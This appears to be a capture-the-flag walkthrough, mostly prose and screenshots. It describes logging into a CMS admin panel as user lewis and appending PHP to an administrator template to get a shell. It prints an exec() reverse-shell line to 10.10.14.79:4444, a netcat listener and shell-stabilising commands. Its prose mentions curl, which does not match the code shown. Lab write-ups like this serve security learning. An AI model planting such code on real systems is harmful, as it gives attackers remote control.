With the credentials we got it, we can acces to lewis account





Navigating throw the web page we found more informations about the current user.



We can now edit one of the templates and add PHP code to get a shell on the target. Upon navigating to System > Site Templates > Administrator templates → 
|  | Atum Details and Files |






We append our malicious PHP code to the end of the index.php file in order to get a shell. This one-liner uses the system() function to run curl and fetch a bash script from our local web server, which is then piped to bash , triggering a reverse shell.



```bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.79/4444 0>&1'");
```


 We will use the below command to start a Netcat listener, which will catch the reverse shell connection once our script has been executed.
 ```bash
  $ nc -lnvp 4444
```


Now we save our template modification and got a reverse shell



Now if we press ctrl+c the reverse shell will be close, so we do the following
```bash
$  script /dev/null -c bash
ctrl+z
$ stty raw -echo; fg   
reset xterm
```
And we have in console that ctrl+c don't close our session. And to have that the ctrl+l works we do
```bash
$ export TERM=xterm
```
And now I prefer to work with bash so adding this command we do it
```bash
$ export SHELL=/bin/bash
```


we don't have permissions to see the flag




[Back](README.md)
